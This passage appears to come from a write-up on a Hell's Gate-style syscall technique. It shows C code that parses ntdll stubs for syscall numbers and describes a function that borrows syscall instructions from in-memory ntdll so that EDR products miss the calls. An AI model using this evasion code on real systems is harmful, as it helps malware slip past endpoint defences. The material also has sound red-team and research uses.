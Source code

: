 ```
				printf("%02X\n", pFunctionAddress);

				//follow the same approach as Hell's Gate to actually fetch the syscall and patch it
				WORD i = 0;
				while (TRUE) {
					// check if syscall, in this case we are too far
					if (*((PBYTE)pFunctionAddress + i) == 0x0f && *((PBYTE)pFunctionAddress + i + 1) == 0x05)
					{
						return FALSE;
					}
					// check if ret, in this case we are also probaly too far
					if (*((PBYTE)pFunctionAddress + i) == 0xc3)
					{
						return FALSE;
					}
					// First opcodes should be :
					//    MOV R10, RCX
					//    MOV RCX, <syscall>

					//print first 8 bytes of function
					printf("1st byte: 0x%x\n", *((PBYTE)pFunctionAddress + i));
					printf("2nd byte: 0x%x\n", *((PBYTE)pFunctionAddress + 1 + i));
					printf("3rd byte: 0x%x\n", *((PBYTE)pFunctionAddress + 2 + i));
					printf("4th byte: 0x%x\n", *((PBYTE)pFunctionAddress + 3 + i));
					printf("5th byte: 0x%x\n", *((PBYTE)pFunctionAddress + 4 + i));
					printf("6th byte: 0x%x\n", *((PBYTE)pFunctionAddress + 5 + i));
					printf("7th byte: 0x%x\n", *((PBYTE)pFunctionAddress + 6 + i));
					printf("8th byte: 0x%x\n", *((PBYTE)pFunctionAddress + 7 + i));

					

					if (*((PBYTE)pFunctionAddress + i) == 0x4c
						&& *((PBYTE)pFunctionAddress + 1 + i) == 0x8b
						&& *((PBYTE)pFunctionAddress + 2 + i) == 0xd1
						&& *((PBYTE)pFunctionAddress + 3 + i) == 0xb8
						&& *((PBYTE)pFunctionAddress + 6 + i) == 0x00
						&& *((PBYTE)pFunctionAddress + 7 + i) == 0x00) {
						
						//these bytes are both needed, as some syscalls are functionally more than 1 byte in length: think 0x03d (NtQueryAttributesFile)  vs 0x013d (NtQueryAuxiliaryCounterFrequency)
						BYTE high = *((PBYTE)pFunctionAddress + 5 + i);
						BYTE low = *((PBYTE)pFunctionAddress + 4 + i);

						pVxTableEntry->wSystemCall = (high << 8) | low; //this will put the correct syscall in place
						printf("Syscall for %s is: %X", pczFunctionName, pVxTableEntry->wSystemCall);  //print the syscall
						break; //break the while loop once conditions are met
					}

					i++;
```
After the syscall is retrieved for our desired Nt function, we then utilize the new Function I wrote to fetch random unhooked function addresses for syscall instructions: Fetch_Random_Sys.
Essentially, it looks weird to an EDR/any defensive product watching if the syscall instruction being called does NOT come from inside of the in-memory loaded module ntdll, since that is theoretically where it SHOULD always be called from the perspective of security products.
The crawling of the PEB is very similar to above; however, this time, since we need to find an adress inside of IN-MEMORY ntdll, we need to load the proper module and crawl that (vs our on-disk ntdll bytes). This is achieved with the following code:
